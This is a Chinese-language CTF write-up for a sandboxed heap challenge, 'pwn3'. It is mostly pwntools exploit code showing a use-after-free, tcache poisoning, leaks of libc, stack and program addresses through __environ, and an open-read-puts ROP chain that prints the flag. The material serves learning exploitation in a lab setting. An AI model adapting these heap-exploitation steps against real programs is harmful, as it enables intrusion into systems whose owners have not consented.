






# pwn3  
考查的是orw，即open read write  
  
这道题保护全开，还开了沙盒，所以不能用onegadget或system来getshell  
  
  
  
  
漏洞在于free后没有清空指针，存在UAF。  
为了得到libcbase需要把freechunk放进unsortedbin，由于存在tcache，需要先把他填充满。  
```
add(0x30,b'./flag\x00')#0
for i in range(7):
    add(0x100,b'./flag\x00')
for i in range(7):
    add(0x50,b'./flag\x00')


add(0x100,b'./flag\x00')#15
add(0x50,b'./flag\x00')#16
add(0x50,b'./flag\x00')#17
for i in range(14):
    free(i+1)
# pause()
show(2)
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
print(hex(heap_addr))
free(15)
show(15)
main_arena_96=u64(p.recv(6).ljust(8,b'\x00'))
malloc_hook=main_arena_96-0x70
libcbase=malloc_hook-libc.symbols['__malloc_hook']
print('malloc_hook',hex(malloc_hook))
print('libcbase',hex(libcbase))
```
把堆地址和libc都获得到了。  
之后我试了好久的free_hook和malloc_hook劫持，使他运行onegadget，都失败了（这是我第一次见到沙盒题，不知道）  
谷歌后发现libc里有个地方（__environ）会存栈地址，突然好起来了。  
  
```
add(0x30,b'./flag\x00')#18
free(16)
free(17)
edit(14,p64(environ_addr-0x10))
add(0x50,b'./flag\x00')#19
add(0x50,b'./flag\x00')#20
edit(20,b'a'*0xf)
show(20)
p.recvuntil(b'a'*0xf+b'\n')
stack_addr=u64(p.recv(6).ljust(8,b'\x00'))
print("stack_addr",hex(stack_addr))
```
之后我试图通过tcache投毒把ROP链写到rbp下面，然而可能是开chunk时会把栈破坏，这种方法试了好长时间最终还是没成功。  
我又想到栈里不是会有很多程序地址嘛，通过这个方法得到了程序偏移地址，由此也得到了管理chunks地址的地方。  
```
print('stack_before_proaddr',hex(stack_addr-0x220+0x138))
edit(7,p64(stack_addr-0x220+0x138))
add(0x100,b'a'*0xf)#21
add(0x100,b'a'*0xf)#22
show(22)
# print(p.recv())
p.recvuntil(b'a'*0xf+b'\n')
pro_addr=u64(p.recv(6).ljust(8,b'\x00')) #程序本身的地址
print("pro_addr",hex(pro_addr))
pro_offset=pro_addr-0x1a30
print("pro_offset",hex(pro_offset))         
buf_addr=pro_offset+0x4060
add(0x30,b'./flag\x00')#23                 
add(0x10,b'r\x00')#24
free(0)
free(23)
edit(23,p64(buf_addr+0x10))
print('buf_addr+8*25',hex(buf_addr+8*25))
add(0x30,b'flag\x00\x00\x00\x00')#25
print("under_rbp",hex(stack_addr-0x230))
add(0x30,p64(stack_addr-0x230)+p64(environ_addr-0x10))#26 #得到最有用的控制权，任意地址写
```
接下来就可以做到真正意义上的任意地址写了，程序偏移，libc偏移，stack偏移，堆地址偏移我全都得到了，直接构造ORW的ROP链即可。  
```
# open
rop_link = p64(pop_rdi)+p64(heap_addr+0xa50)+p64(pop_rsi)+p64(0)+p64(open_addr)
# read
rop_link+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap_addr+0xb50)+p64(pop_rdx_rcx_rbx)+p64(0x30)*3+p64(read_addr)
# puts
rop_link+= p64(pop_rdi)+p64(heap_addr+0xb50)+p64(puts_addr)
rop_link+= p64(pop_rdi)+p64(heap_addr+0xb50)+p64(puts_addr)
edit(2,rop_link)#这段rop被放在rbp下面
p.interactive()
```
实话实说，结果这个ROP链卡我的时间最久，因为按理rdi要赋值为字符串flag的指针，而我居然赋了个指针的指针，却始终没有发现，导致open失败（而我竟然一直以为是open也被禁用了）以后一定要杜绝此类现象发生。  


